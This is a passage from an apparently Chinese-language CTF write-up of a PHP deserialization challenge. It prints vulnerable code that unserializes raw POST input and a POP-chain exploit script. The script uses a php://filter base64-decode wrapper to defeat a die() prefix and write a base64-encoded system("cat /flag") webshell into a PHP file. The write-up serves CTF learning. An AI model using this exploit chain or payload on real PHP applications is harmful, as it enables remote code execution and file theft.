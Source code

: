 ```php
}

    $code=$_POST['code']; 
    if(isset($code)){
       echo unserialize($code);
    }
    else{
        echo "no way, fuck off";
    }

$pop = new Start;
$pop->barking = new CTF;
$pop->barking->part1="php://filter/write=convert.base64-decode/resource=flag.php";
$pop ->barking->part2= "bbPD9waHAgc3lzdGVtKCJjYXQgL2ZsYWciKTs=";
echo serialize($pop);
```

Flag类中include的是flag**,**php，而不是flag.php。所以这个函数用不了。

### **思路：**

利用CTF类中dosomething()写入危险函数。

---

题目在$useless后拼接了一段par2，然后用file_put_contents写入part1的文件。



先将危险函数 `<?php system("cat /flag");`进行base64加密得 `PD9waHAgc3lzdGVtKCJjYXQgL2ZsYWciKTs=`赋值给part2。

然后这里可以用伪协议 `php://filter`来对写入的数据进行base64解码，将前面的die函数变成乱码。

然后使后面拼接的base64编码刚好解码为危险函数，即可达到目的。


拼接后 `<?php die("+Genshin Impact Start!+");?>PD9waHAgc3lzdGVtKCJjYXQgL2ZsYWciKTs=`

![1732802716933](image/1124-1130周报/1732802716933.png)
